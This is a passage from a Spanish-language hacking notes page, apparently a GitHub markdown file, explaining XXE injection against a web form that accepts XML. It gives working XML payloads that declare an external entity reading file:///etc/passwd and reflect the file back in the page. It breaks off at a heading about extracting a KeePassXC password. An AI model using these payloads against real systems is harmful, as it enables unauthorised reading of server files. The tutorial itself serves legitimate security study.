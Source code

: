 Y esto te lo mostrara de manera mas clara toda la informacion...

### XXE Injection

URL = https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection

Supongamos que tenemos una web en la que podemos subir cosas en formato `xml` y que la estructura la procesa bien mostrandonos asi el input que nosotros hemos metido, si se fia de cualquier input que le podamos meter, podremos hacer la inyeccion `XXE`...

Supongamos que la estructura del `xml` es la siguiente...

```xml
<post>
	<title>test</title>
	<description>message test</description>
	<markdown>test test test</markdown>
</post>
```

Y ese input se refleja en la pagina cuando lo vamos a subir, por lo que podremos hacer lo siguiente...

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<post>
	<title>test</title>
	<description>message test</description>
	<markdown>&xxe;</markdown>
</post>
```

Si es vulnerable a este tipo de inyeccion deberiamos de poder ver el archivo `passwd` en el espacio donde estamos poniendo `&xxe;` y este nombre puede ser cualquiera que le queramos asignar en la parte de arriba en la zona `<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>` donde pone `xxe` podemos nombrarlo como queramos por ejemplo...

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY example SYSTEM "file:///etc/passwd" >]>
<post>
	<title>test</title>
	<description>message test</description>
	<markdown>&example;</markdown>
</post>
```

Si le cambiamos el nombre quedaria de esta manera...

### Sacar password de un KeePassXC
